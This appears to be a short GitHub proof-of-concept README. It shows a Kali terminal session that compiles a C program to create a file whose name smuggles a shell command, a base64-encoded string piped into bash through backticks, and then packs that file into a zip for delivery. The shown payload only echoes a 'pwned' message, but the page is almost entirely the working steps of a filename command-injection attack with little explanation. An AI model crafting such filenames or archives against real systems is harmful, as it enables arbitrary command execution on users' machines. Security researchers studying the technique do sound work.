 # createfiles


<img width="1249" height="348" alt="image" src="https://github.com/user-attachments/assets/42e419af-3ac8-4ef5-8893-f4fab50c938a" />


```bash
└─$ gcc createfile.c -o createfile
                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/rce]
└─$ ./createfile
[*] Target filename: poc.txt`{echo,ZWNobyAieW91IGhhdmUgcHduZWQgWytdISAi}|{base64,-d}|bash`
[*] Calling syscall(SYS_openat)...
[+] File created successfully! fd=3
[+] Wrote 9 bytes to file.
[+] File closed successfully.
[*] Done.
└─$ ls -la
total 36
-rwxrwxr-x  1 kali kali 16328 Aug 22 12:02  createfile
-rw-rw-r--  1 kali kali  1137 Aug 22 12:02  createfile.c
-rw-r--r--  1 kali kali     9 Aug 22 12:02 'poc.txt`{echo,ZWNobyAieW91IGhhdmUgcHduZWQgWytdISAi}|{base64,-d}|bash`'

└─$ zip poc.zip poc.txt\`\{echo,ZWNobyAieW91IGhhdmUgcHduZWQgWytdISAi\}\|\{base64,-d\}\|bash\` 
  adding: poc.txt`{echo,ZWNobyAieW91IGhhdmUgcHduZWQgWytdISAi}|{base64,-d}|bash` (stored 0%)

```

